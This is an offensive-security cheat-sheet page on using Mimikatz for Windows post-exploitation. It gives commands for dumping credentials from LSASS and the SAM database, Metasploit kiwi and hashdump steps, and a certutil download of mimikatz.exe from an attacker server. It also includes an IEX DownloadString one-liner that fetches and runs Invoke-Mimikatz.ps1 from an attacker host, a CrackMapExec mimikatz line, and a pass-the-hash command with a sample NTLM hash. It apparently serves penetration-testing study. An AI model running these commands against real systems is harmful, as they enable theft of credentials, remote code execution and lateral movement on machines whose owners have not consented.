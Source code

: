 # Mimikatz

**Mimikatz** is a Windows post-exploitation tool. It allows fot the extraction of clear-text passwords, hashes and kerberos tickets from memory.

**Required**:

* **pwd the target** with shell/meterpreter
* login with a **high privilege account**



## Transfer to target



<pre class="language-bash" data-title="Metasploit module"><code class="lang-bash"># load the kiwi module
load kiwi

# get help menu
?

# retrieve all credentials with kiwi
creds_all

<strong># dump from SAM db
</strong>lsa_dump_sam
</code></pre>



{% code title="Metasploit" %}
```bash
use post/windows/gather/hashdump
set SESSION
run
```
{% endcode %}



{% code title="PS shell" %}
```powershell
# create a 'Temp' dir on Target Machine
mkdir Temp

# cp mimikatz file and host server in attack machine on port 80
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80

# download .exe from attack machine
certutil -urlcache -f http://IP:80/mimikatz.exe mimikatz.exe
```
{% endcode %}



{% code title="meterpreter & mimikatz.exe" %}
```powershell
# create a 'Temp' dir
mkdir Temp

# upload .exe from meterpreter to target machine
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

# execute the program via shell in the target machine
.\mimikatz.exe

# check required privileges
privilege::debug

# lsa dump from SAM db
lsadump::sam

# show clear-text passwords
sekurlsa::logonpasswords
```
{% endcode %}



## MimiKatz into PowerShell RevShell

Stablished a connection with Hoaxshell

[#hoaxshell](../../pt/executive-pt/post-exploitation/shells.md#hoaxshell "mention")

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1
```
{% endcode %}

Host a webserver with the module Invoke-Mimikatz.ps1

```
python3 -m http.server 80
```

Run this command to import the mimikatz module from attacker webserver and use it.

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<ATT_IP>:<ATT_PORT>/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"PRIVILEGE::Debug"'
```
{% endcode %}



## Mimikatz with CrackMapExec

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```



## Credentials Dump

### NTLM

```powershell
```



## Methods

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### sekurlsa

The **sekurlsa** module in Mimikatz, leverages a number of different techniques to extract authentication information from _**LSASS**_ memory including parsing memory structures and using Windows APIs.

#### "logonpasswords"&#x20;

The "logonpasswords" function of this module specifically extracts login session data such as saved password hashes and cached credentials. This can include the current user's logon information, as well as information for other users who have logged onto the same machine.

Example:

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

#### "pth"

The "sekurlsa::pth" command in mimikatz is a features that facilitates "Pass-the-Hash" attacks. This technique allows us to authenticate to a remote system by using a captured NTLM hash of a user's password, without the need for the actual password. To execute this command, we must provide only the following parameters:

* **/user**: (the username)
* **/domain**: (the domain)
* **/ntlm**: (the NTLM hash of the user's password)

{% hint style="info" %}
Note that Windows passwords are not only limited to the NTLM protocol, but may also use popular block encryption algorithms like AES-128 and AES-256 for password storage. In such cases, adversaries would need to use the _**/aes128**_: or _**/aes256**_: parameters instead of _**/ntlm**_:
{% endhint %}

Example:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "sekurlsa::pth /user:Alice /domain:domain.com /ntlm:a0c8746a6efc7782c7c19c55185145be"
```
{% endcode %}



### privilege

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration

#### "debug"

Before run the "sekurlsa::logonpasswords" function, we need to run the "privilege::debug" command.

By default, LSASS runs with high integrity and is protected from being debugged by unauthorized processes. However, by enabling the "_**debugger privilege**_" function, we can bypass this protection and access LSASS memory to extract the logon session data.

















